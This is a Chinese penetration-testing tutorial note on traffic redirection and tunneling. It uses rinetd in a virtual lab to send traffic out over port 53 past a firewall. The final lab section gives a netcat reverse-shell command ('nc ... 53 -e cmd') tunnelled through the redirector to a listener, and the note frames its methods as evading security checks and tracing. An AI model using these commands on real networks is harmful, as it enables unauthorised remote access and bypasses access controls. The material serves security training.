 
# 流量操纵与后门

* [SSH](./[10-1]--SSH隧道.md)
* [DNS 协议隧道--dns2tcp](./[10-2]--DNS协议隧道--dns2tcp.md)
* [DNS 协议隧道--iodine](./[10-3]--DNS协议隧道--iodine.md)
* [DNS 协议隧道--NCAT](./[10-4]--DNS协议隧道--NCAT.md)
* [DNS 协议隧道--SOCAT](./[10-5]--DNS协议隧道--SOCAT.md)
* [隧道工具--ptunnel](./[10-6]--隧道工具--ptunnel.md)
* [隧道工具--proxytunnle](./[10-7]--隧道工具--proxytunnle.md)


* 简介
* 重定向

## 简介
* 介绍
> Traffic manipulation technique  
  渗透测试中经常遇到访问受限的网络环境  
  使用隐蔽的手段逃避安全检查措施和溯源追踪  
  证明看似严格的访问控制仍然存在弱点  
  在非受信任的网络中实现安全的数据传输  
  部分概念的实现过程略有烧脑

* 重定向 （Redirection）
> IP、Port

* 隧道 （Tunneling）
> 在不受信任的网络环境中实现安全的通信  
  通常使用多种加密技术建立通信隧道  
  点到点（IP2IP）、端到端（Port2Port，更安全）隧道  
  VPN：pptp、l2tp、IPSec、SSL vpn  

* 封装 （encapsulation）
> 通常结合在隧道中使用，使用一种协议封装一种协议 （RPC over http、VoIP）  
  使用网关设备实现不同类型的互联互通


## 重定向
* 安装 Rinetd
1. 安装：apt-get install rinetd
2. 配置：/etc/rinetd.conf
``` 
 bindadd bindport connectadd connectport

```
3. 运行 Rinetd

* 应用场景
1. 重定向 web 流量，突破上网限制
2. 远程桌面重定向
3. NC 重定向获得 shell
4. 不兼容 ftp 等第二次连接的协议  


* 远程桌面重定向环境进行测试
1. 环境拓扑
``` 
防火墙限制 winxp 访问外网，仅允许53 端口的流量访问内外网
在外网家庭主机 kali 上设置 rinetd 来进行代理
winxp 通过 53 端口访问 kali（rinetd） 进行流量转发，将53端口的流量转发为 80 端口的流量

m0n0wall <--bridge--> kali <--bridge--> 外网服务器win2003（http、rdp、nc）

m0n0wall <--hostonly--> 家庭 winxp
m0n0wall <--bridge--> 外网服务器 win2003（http、rdp、nc）
配置 m0n0wall 禁止 winxp 访问外网，只开放53端口

```   

2. 安装 m0n0wall 防火墙
   
``` 
仅主机
指定 ip: LAN: 1.1.1.1

```

3. winxp
``` 
仅主机
ip：1.1.1.10（dhcp自动获取）
```

4. win2003 开启 rdp，IIS
``` 
桥接
ip：192.168.1.12（dhcp自动获取）
```

5. Kali 安装 rinetd
``` 
桥接
ip：192.168.1.11（dhcp自动获取）
root@kali:~# apt-get install rinetd
root@kali:~# cat /etc/rinetd.conf


root@kali:~# rinetd

```

6. winxp 访问外网


* NC 重定向获得 shell 环境测试

* 将 kali 中的 nc.exe 复制到 winxp 和 win2003

* win2003
```  
C:\>nc -nvlp 333

```

* kali
``` 
root@kali:~# vim /etc/rinetd.conf

重启 rinetd
```

* winxp
``` 
C:\>nc 192.168.1.11 53 -e cmd

```


